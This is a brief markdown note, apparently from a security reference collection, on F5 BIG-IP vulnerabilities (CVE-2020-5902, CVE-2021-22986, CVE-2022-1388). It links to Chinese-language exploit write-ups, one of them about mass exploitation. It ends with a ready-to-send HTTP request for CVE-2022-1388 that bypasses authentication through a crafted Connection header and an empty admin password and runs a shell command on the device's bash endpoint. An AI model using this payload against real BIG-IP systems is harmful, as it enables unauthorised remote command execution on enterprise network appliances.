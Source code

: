 # F5 big

F5 Networks K52145254：TMUI RCE 漏洞 CVE-2020-5902
+ [HSQLDB反序列化](https://buaq.net/go-84779.html)


F5 BIGIP iControl REST CVE-2021-22986
+ [脚本小子是如何复现漏洞(CVE-2021-22986)并实现批量利用](https://mp.weixin.qq.com/s/cavKq04hNU5pJoTBiPMZkw)
+ [F5 BIGIP iControl REST CVE-2021-22986漏洞分析与利用](https://www.anquanke.com/post/id/236159)
+ [F5 BIG-IP Cookie 信息泄露利用工具](https://mp.weixin.qq.com/s/RzYSA1ADrIQYQxqjug62sg)
+ [漏洞复现-F5 BIG-IP远程代码执行漏洞(CVE-2021-22986)](https://mp.weixin.qq.com/s/CDST3_FcVM8tvB0hTlrsJg)

CVE-2022-1388
+ [BIG-IP(CVE-2022-1388)从修复方案分析出exp](https://mp.weixin.qq.com/s/6gVZVRSDRmeGcNYjTldw1Q)
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
Content-Length: 45

{
"command":"run",
"utilCmdArgs":"-c id"
}
```
